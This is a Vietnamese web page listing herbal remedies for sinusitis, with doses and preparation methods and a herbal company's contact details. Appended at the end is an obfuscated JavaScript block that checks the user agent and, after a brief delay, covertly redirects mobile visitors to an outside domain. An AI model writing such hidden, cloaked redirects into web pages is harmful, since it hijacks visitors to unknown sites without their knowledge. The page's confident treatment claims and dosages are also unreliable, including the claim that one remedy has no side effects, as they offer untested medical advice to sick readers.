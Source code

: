 Các loại thảo dược hỗ trợ điều trị viêm xoang hiệu quả, dễ sử dụng

Cỏ hôi - Thảo dược hỗ trợ điều trị viêm xoang

Cây cỏ hôi hay còn được biết đến với tên gọi khác là cây xuyến chi hay cây hoa cứt lợn là một cây thuốc chữa viêm xoang dân dã. Loài thảo mọc này đến nay vẫn còn mọc hoang khắp nơi. Bộ phận được sử dụng là toàn thân, loại trừ rễ. Cây thu hái tốt nhất là vào mùa hè, có thể dùng tươi hay phơi khô để dùng dần. 

Cỏ hôi có tính mát, vị đắng, tác dụng tiêu viêm, giải độc, thanh nhiệt, cầm máu. Với bệnh viêm xoang, thảo dược dân dã này giúp chống phù nề, giảm sưng viêm, tiêu mủ khá hiệu quả. Người bệnh có thể dùng 30g cây tươi hoặc 15g cây khô sắc nước uống hàng ngày.

Cây cỏ mực hỗ trợ điều trị viêm xoang

Cỏ mực hay hạn liên thảo, cỏ nhọ nồi có vị ngọt lẫn chua, tính mát có tác dụng cầm máu, mát máu, bổ thận, bổ âm, hạ sốt, giảm sưng viêm,… Để chữa viêm xoang, người bệnh dùng khoảng 20g lá nhọ nồi tươi giã nát, lọc lấy nước uống hoặc nấu nước uống hàng ngày.

Cây đại bi  hỗ trợ điều trị viêm xoang

Cây đại bi có tên khoa học là Blumea balsamifera, thuộc họ Cúc (Asteraceae), còn có tên gọi khác là mai hoa băng phiến, long não hương, mai phiến cũng là một thảo dược trị viêm xoang. Loại thảo dược này chủ yếu được dùng để sản xuất chất băng phiến và chiết xuất tinh dầu.

Để chữa bệnh viêm xoang, chúng ta dùng lá cây. Lá đại bi có mùi thơm, vị cay đắng, tính ôn có công dụng sát trùng, tiêu thũng, hoạt huyết, tiêu ứ, kháng khuẩn, giảm đau. Người bệnh viêm xoang có thể dùng khoảng 20g lá đại bi nước uống hoặc nước xông mũi đều được.

Ké đầu ngựa  hỗ trợ điều trị viêm xoang

Cây ké đầu ngựa có vị cay đắng, tính ấm, hơi độc, có tác dụng thông mũi, chữa đau đầu, giảm sổ mũi, hắt hơi, nghẹt mũi,… Muốn chữa bệnh viêm xoang, bạn dùng ké đầu ngựa sao vàng, tán thành bột mịn để uống hàng ngày.

Tân di hoa

Tân di hoa là nụ hoa mộc lan đã quá chế biến để có thể dùng làm bị thuốc. Vị thuốc tân di hoa chủ yếu được nhập từ Trung Quốc. Hoa có vị cay, tính ấm có tác dụng giải biểu, thông khiếu, khu phong, chỉ thống,… rất thích hợp để điều trị viêm mũi, viêm xoang, nghẹt mũi, đau nhức đầu. Người bệnh xoang có thể dùng tân di hoa nghiền thành bột, hãm trà hay dùng để sắc nước thuốc uống đều được.

Tía tô - Thảo dược  hỗ trợ điều trị viêm xoang dân dã

Với người Việt, tía tô không chỉ là loại rau gia vị mà còn như một vị thuốc vườn nhà. Lá tía tô có tính ấm, vị cay, thường được dùng để hạ sốt, làm ra mồ hôi, giải cảm, chữa ho. Người bị viêm xoang có thể nấu nước tía tô uống hoặc xông mũi trị xoang hàng ngày.

Diếp cá  hỗ trợ điều trị viêm xoang

Diếp cá hay dấp cá có vị chua, tính hơi hàn, thường được hái ăn sống hoặc ép lấy nước uống cũng là một cây thuốc nam chữa viêm xoang. Cây diếp cá bỏ rễ có thể dùng tươi hoặc phơi khô. Để chữa bệnh viêm xoang, bạn có thể ăn diếp cá trong các bữa ăn hàng ngày hoặc dùng diếp cá sấy khô hãm trà uống. Ngày nay cũng có nhiều loại bột diếp cá sấy lạnh rất tiện để sử dụng.

Hỗ trợ điều trị viêm xoang bằng cát cánh

Trong Y học cổ truyền, cát cánh có vị ngọt, đắng, cay, tính hơi ôn có tác dụng long đờm, tiêu mủ, chữa sưng đau hầu họng, chữa khàn tiếng, lở loét mưng mủ. 

Muốn chữa viêm xoang, người bệnh cần dùng 6 đến 30g rễ cát cánh khô, bỏ vỏ hoặc không bỏ vỏ để nấu nước uống hàng ngày. Tuy nhiên, những người bị loét dạ dày không nên uống nhiều. Người bị lao phổi, viêm phế quản với triệu chứng ho khan ít đờm không nên uống trong thời gian dài.

Bạch chỉ  hỗ trợ điều trị viêm xoang

Thảo dược hỗ trợ điều trị viêm xoang là loài sống lâu năm, có vị cay, tính ôn, thường dùng để chống viêm và chữa bệnh tai mũi họng, đau đầu, đau răng. Người bị viêm xoang có thể dùng 6 - 12g bạch chỉ để uống mỗi ngày triệu chứng viêm xoang sẽ giảm dần.

Vị thuốc hoàng cầm hỗ trợ điều trị viêm xoang

Hoàng cầm có tính hàn, vị đắng, tác dụng thanh nhiệt, cầm máu, an thần, chữa mất ngủ, hạ sốt, giảm triệu chứng viêm phổi,... Bệnh nhân viêm xoang muốn giảm các triệu chứng bệnh nên dùng 6 - 15g rễ hoàng cầm sắc nước thuốc uống hoặc phơi khô, tán thành bột uống dần. Phụ nữ mang thai không nên áp dụng cách chữa bệnh viêm xoang này.

Lá lốt - Thảo dược quen thuộc hỗ trợ điều trị viêm xoang

Cũng giống như tía tô, lá lốt là loại rau gia vị quen thuộc với người Việt. Tinh dầu trong lá lốt có chữa nhiều piperin hay piperidin. Hai chất này giống như một loại kháng sinh tự nhiên có thể tiêu diệt nấm, virus, vi khuẩn. 

Nhờ đó, lá lốt giúp giảm triệu chứng của bệnh viêm xoang khá hiệu quả. Người bệnh viêm xoang có thể nấu nước lá lốt để xông mũi hàng ngày. Kiên trì áp dụng người bệnh sẽ thấy giảm sổ mũi, ngạt mũi, giảm đau nhức xoang và dễ thở hơn.

Lá trầu không hỗ trợ điều trị viêm xoang

Thảo dược trị viêm xoang không nhất thiết phải là loại đắt đỏ du nhập từ nước ngoài. Những thảo dược quen thuộc với người Việt như lá trầu không cũng giúp giảm triệu chứng xoang hiệu quả. Lá trầu không có tính ấm, công dụng tiêu thũng, tán hàn, sát trùng, diệt khuẩn. Người bị viêm xoang có thể vò nát vài lá trầu tươi, nấu nước để xông hàng ngày mà không lo tác dụng phụ.

THÔNG TIN LIÊN HỆ:

CÔNG TY THẢO DƯỢC CHẤT LƯỢNG CAO LKL

ĐỊA CHỈ: BA VÌ HÀ NỘI VIỆT NAM

SỐ ĐIỆN THOAI: 0987654321

EMAIL: LKLTHAODUOC@GMAIL.COM

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.tenmienneww.click/xoang",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
